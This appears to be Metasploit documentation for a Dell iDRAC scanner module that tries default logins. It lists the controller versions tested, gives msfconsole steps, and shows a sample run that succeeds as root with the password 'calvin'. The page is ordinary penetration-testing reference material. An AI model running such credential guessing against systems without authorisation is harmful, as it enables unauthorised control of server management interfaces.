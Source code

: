 ## Vulnerable Application

This module attempts to login to a iDRAC webserver instance using
default username and password.  Tested against Dell Remote Access:

- Controller 6 - Express version 1.50 and 1.85,
- Controller 7 - Enterprise 2.63.60.62
- Controller 8 - Enterprise 2.83.05
- Controller 9 - Enterprise 4.40.00.00

## Verification Steps

1. Setup the Dell iDRAC
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/dell_idrac`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should see attempts to login.

## Options

## Scenarios

### iDRAC Controller 7 - Enterprise 2.63.60.62

```
msf > use auxiliary/scanner/http/dell_idrac
msf auxiliary(scanner/http/dell_idrac) > set verbose true
verbose => true
msf auxiliary(scanner/http/dell_idrac) > set rhosts 222.222.2.22
rhosts => 222.222.2.22
msf auxiliary(scanner/http/dell_idrac) > run

[*] Verifying that login page exists at 222.222.2.22
[*] Attempting authentication
[+] https://222.222.2.22:443/ - SUCCESSFUL login for user 'root' with password 'calvin'
[-] https://222.222.2.22:443/ - Dell iDRAC - Failed to login as 'user1' with password 'calvin'
[-] https://222.222.2.22:443/ - Dell iDRAC - Failed to login as 'user1' with password '123456'
[-] https://222.222.2.22:443/ - Dell iDRAC - Failed to login as 'user1' with password 'password'
[-] The connection timed out (222.222.2.22:443).
[-] https://222.222.2.22:443/ - Dell iDRAC - Failed to login as 'admin' with password 'calvin'
[-] The connection timed out (222.222.2.22:443).
[-] https://222.222.2.22:443/ - Dell iDRAC - Failed to login as 'admin' with password '123456'
[-] The connection timed out (222.222.2.22:443).
[-] https://222.222.2.22:443/ - Dell iDRAC - Failed to login as 'admin' with password 'password'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/dell_idrac) > creds
Credentials
===========

host          origin        service          public  private  realm  private_type  JtR Format
----          ------        -------          ------  -------  -----  ------------  ----------
222.222.2.22  222.222.2.22  443/tcp (https)  root    calvin          Password      
```
